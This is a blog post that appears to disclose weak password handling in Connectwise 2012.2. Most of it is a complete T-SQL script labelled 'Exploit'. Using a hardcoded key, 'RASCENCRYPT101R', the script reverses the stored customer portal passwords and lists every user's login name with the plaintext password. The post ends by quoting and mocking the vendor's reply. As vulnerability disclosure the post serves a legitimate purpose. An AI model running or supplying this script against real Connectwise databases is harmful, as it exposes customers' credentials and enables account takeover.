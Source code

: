 ```yaml
---
layout: post
title:  Connectwise Password Recovery
description: Connectwise user password recovery from poor encryption
date: 2013-10-02
tags: [password, connectwise]
---
```


### Connectwise password decryption and recovery

The release notes for the 2012.2 edition of Connectwise claim, as a welcome feature, "The customer portal password ... is now encrypted". Unfortunately, what we see is not encryption. What we see is pointless, reversible exercise in incompetence. 

### Exploit
The below SQL script will produce a table featuring every user's login name and password. 

{% highlight sql %}
BEGIN

DECLARE
	@KeyValue       nchar(15),
	@OutputValue    varchar(20),
	@Working        nchar(10),
	@WorkingKey     nchar(10),
	@Username		nchar(32),
	@LoopCount      integer,
	@CalcKey        integer,
	@WorkingInt     integer,
	@WorkingKeyInt  integer,
	@InputValue nchar(20)
        
DECLARE pass_cursor CURSOR FOR 
	SELECT CM_Password, Description
	FROM dbo.Contact, dbo.Contact_Communication 
	WHERE contact.Contact_RecID = Contact_Communication.Contact_RecID
	AND Communication_Type_RecID = '1'
	AND CM_Password is not NULL

OPEN pass_cursor

FETCH NEXT FROM pass_cursor 
INTO @InputValue, @Username

WHILE @@FETCH_STATUS = 0
BEGIN
	SET @KeyValue = 'RASCENCRYPT101R'
	SET @LoopCount = 1
	SET @OutputValue = ''
        WHILE len(@InputValue) >= @LoopCount
                BEGIN
                SET @Working = ascii(substring(@InputValue, @LoopCount, 1))
                SET @WorkingKey = ascii(substring(@KeyValue, @LoopCount, 1))
                IF convert(integer, @Working) < convert(integer, @WorkingKey)
                        BEGIN
                        SET @Working = char(convert(integer, (@Working + 255)) -
							convert(integer, @WorkingKey))
                        END
                ELSE
                        BEGIN
                        SET @Working = char(convert(integer, @Working) - convert
							(integer, @WorkingKey))
                        END
                SET @LoopCount = @LoopCount + 1
                SET @OutputValue = @OutputValue + convert(char(1), @working)
         END


	SELECT @Username, @outputvalue

    FETCH NEXT FROM pass_cursor 
    INTO @InputValue, @Username

END

CLOSE pass_cursor;
DEALLOCATE pass_cursor;

END

{% endhighlight %}


### Vendor Response
The vendor responds "Connectwise is secured through the purchase of an SSL certificate" (WTF?) 
